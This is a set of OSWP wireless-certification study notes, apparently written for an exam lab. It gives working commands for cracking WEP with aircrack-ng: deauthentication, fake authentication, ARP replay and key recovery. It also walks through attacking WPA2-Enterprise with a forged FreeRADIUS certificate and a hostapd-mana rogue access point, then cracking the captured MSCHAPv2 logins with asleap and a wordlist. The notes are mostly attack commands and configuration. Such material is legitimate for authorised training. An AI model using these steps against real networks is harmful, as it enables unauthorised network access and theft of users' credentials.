# OSWP Notes
### Attacking WEP:

Prep monitoring interface

```
airmon-ng check kill
airmon-ng start wlan0
```

Setup active listener to catch traffic

```
airodump-ng --bssid <BSSID> -c <CHANNEL> -w <OUTFILE> <IFACE>
```
  
Deauth to generate some data and reveal clients

```
aireplay-ng -0 0 -a <BSSID> <IFACE>
```
  
Fake auth to generate IVs

```
aireplay-ng -1 6 -e <SSID> -a <BSSID> -h <CLIENT MAC> <IFACE>
```

Use ARP replay to catch and replay ARP packets, which will generate more data / IVs

```
aireplay-ng -3 -b <BSSID> -h <CLIENT MAC> <IFACE>
```

Be patient, it'll take a while to get enough IVs

Start running aircrack on the pcap file to crack it:

```
aircrack-ng <file>
```

Connect to network:

```
sudo /sbin/ifconfig wlan0 up
sudo /sbin/iwlist wlan0 scan
sudo /sbin/iwconfig wlan0 essid "NetworkName"
sudo /sbin/iwconfig wlan0 key network_key
sudo /sbin/iwconfig wlan0 enc on
```

You may need to run `dhclient wlan0`

alternative method:

```
sudo iwconfig wlan0 essid <SSID> key s:<KEY>
sudo dhclient wlan0
```

### WPA2 Enterprise:

Look for WPA MGT network in airodump

Grab cert files from wireshark / tshark traffic using tls.handshake.type == 11,3 or tls.handshake.certificate filters
  - view Packet Details >> TLSv1 Record Layer: Handshake Protocol: Certificate
  - save certificates to file, right click cert string and click Export Packet Bytes

View SSL cert info:

```
openssl x509 -inform der -in CERTIFICATE_FILENAME -text
```

Use freeradius to provide fake cert to clients
  - alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:
```
    [certificate_authority]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Such and Such Certificate Authority"
```
  - alter server block in /etc/freeradius/3.0/certs/server.cnf:
```
    [server]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Playtronics"
```
  - change dir to /etc/freeradius/3.0/certs/ and run:
  ``` 
  rm dh && make
  ```
  - YOU WILL GET AN ERROR, but it doesn't matter

Setup hostapd-mana for the rogue AP using the (updated!) `mana.conf` file, move to `/etc/hostapd-mana/mana.conf`

Use mana.eap_user file, move to `/etc/hostapd-mana/mana.eap_user`

Start hostapd-mana:

```
hostapd-mana /etc/hostapd-mana/mana.conf
```

Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:

```
<asleap command> -W /usr/share/john/password.lst
```

Create `wpa_supplicant.conf` file:

```
network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Connect to network:

`wpa_supplicant -c <config file>`


Don't forget the grab and submit the proof. 
